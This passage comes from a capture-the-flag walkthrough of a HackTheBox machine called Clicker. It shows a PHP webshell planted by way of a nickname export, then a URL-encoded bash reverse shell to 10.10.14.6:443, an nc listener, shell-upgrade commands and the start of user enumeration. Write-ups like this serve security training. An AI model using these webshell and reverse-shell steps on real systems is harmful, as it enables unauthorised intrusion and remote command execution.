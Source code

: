 Putting that all together, I’ll change my `nickname` to be a PHP webshell:

![image-20240125124649040](https://0xdf.gitlab.io/img/image-20240125124649040.png)

I’ll do an export with `extension=php`:

![image-20240125124725187](https://0xdf.gitlab.io/img/image-20240125124725187.png)

Now I’ll visit `http://clicker.htb/exports/top_players_zhfppp54.php?cmd=id` and get execution:

![image-20240125124926231](https://0xdf.gitlab.io/img/image-20240125124926231.png)

#### Shell

To get a shell, I’ll start `nc` listening on 443 and visit `http://clicker.htb/exports/top_players_7pbbwdqy.php?cmd=bash%20-c%20%27bash%20-i%20%3E%26%20/dev/tcp/10.10.14.6/443%200%3E%261%27`:

```
oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.232 44604
bash: cannot set terminal process group (1211): Inappropriate ioctl for device
bash: no job control in this shell
www-data@clicker:/var/www/clicker.htb/exports$

```

I’ll do the [standard shell upgrade](https://www.youtube.com/watch?v=DqE6DxqJg8Q):

```
www-data@clicker:/var/www/clicker.htb/exports$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
www-data@clicker:/var/www/clicker.htb/exports$ ^Z
[1]+  Stopped                 nc -lnvp 443
oxdf@hacky$ stty raw -echo; fg
nc -lnvp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
www-data@clicker:/var/www/clicker.htb/exports$

```

## Shell as jack

### Enumeration

#### Home Directories

There’s one other user with a home directory on the box:

```
www-data@clicker:/home$ ls
jack
www-data@clicker:/home$ ls jack/
ls: cannot open directory 'jack/': Permission denied

```
